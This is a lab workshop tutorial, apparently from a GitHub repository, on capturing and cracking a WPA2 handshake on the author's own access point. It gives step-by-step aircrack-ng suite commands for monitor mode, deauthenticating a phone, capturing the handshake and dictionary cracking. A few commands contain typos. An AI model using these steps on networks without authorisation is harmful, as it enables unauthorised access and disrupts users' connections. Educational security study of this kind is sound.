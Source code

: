 # Wi\-Fi Hacking Workshop

Summary: I will be gathering the Access Point MAC address and MAC address of my phone. I will then 
send 10 deauthentication packets which will cause my phone to disconnect and reauthenticate to the Access Point. We then capture the authentication prcoess save it locally and crack the password

![](img/WifiHackingWorkshop0.png)

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

### Adapter Setup

if using the TPLink TL-WN823N follow this adapter setup otherwise you can skip this section

link: [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

enter these commands in the terminal:

 * `sudo apt-get update  `

 * `sudo apt-get install linux\-headers\-$\(uname \-r\)  `

 * `git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)  `

 * `cd rtl8812au  `

 * `make `

 * `sudo insmod 8812au.ko `

 * `sudo cp 8812au.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless `

 * `sudo depmod `

 * `sudo apt-get install build-essential dkms `

 * `sudo make dkms_install `

 * `echo 8192eu | sudo tee -a /etc/modules `

### Adapter Setup

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

### Adapter Setup

 * `sudo airmon-ng check kill ` checks for conflicting processes and kills them. This however will result in loss of internet for the VM, can be solved by restarting.

 * `iwconfig   `shows the adapter names. In my case wlan0 is the wireless adapter.

 * `sudo airmon-ng start wlan 0 ` - Starts the wireless adapter in monitor mode.

![](img/WifiHackingWorkshop3.png)

### Discovering BSSID

 * `sudo airodump-ng -c 11 wlan0 ` - discovers access points on channel 11 using wlan0

BSSID is the access point MAC address of the router. In this case we are looking at the BSSID for CyberSec

![](img/WifiHackingWorkshop4.png)



### Discovering devices

The MAC address of 0C:8D:CA:A6:94:8D is my phone and that is where the deauthentication packets are getting sent.

![](img/WifiHackingWorkshop5.png)

### De-Auth Attack

 * `sudo airodump-ng -c 11 --bssid B0-95-75-5C-3B-94 -w psk wlan0 ` -c specifices the channel number to scan, in this case channel 11. Bssid is the MAC address of the Access Point. -w writes the output to a file locally using the name after it, in this case psk.

This captures packets for the CyberSec accesspoint and saves it locally to a file named psk

 * `sudo aireplay-ng -0 10 -a B0:95:75:5C:3B:94 -c 0C:8D:CA:A6:93:8D wlan0 ` -0 sets the mode as deauth, alternatively can be set by using --deauth instead. "10" sets the number of deauthenication packets sent. -A is the Access Point MAC address. -C is the client MAC address. wlan0 is the interface the command is being used on.
  
This sends 10 deauthentication packets to my phone which will disconnect from the Access Point and automatically reconnect. The reauthentication process for the WPA2 handshake is captured and saved locally.

![](img/WifiHackingWorkshop6.png)

### Cracking Password
Using the previous wpa2 handshake capture we can brute force the password using a passwordlist. I created one called passwordlist with the password of Password1 in it for lab demostration purpose. But Kali has default wordlists in the /usr/share/wordlists directory

 * `aircrack-ng -w passwordlist.txt psk-02.cap `- This is what is used to crack the password.

![](img/WifiHackingWorkshop7.png)

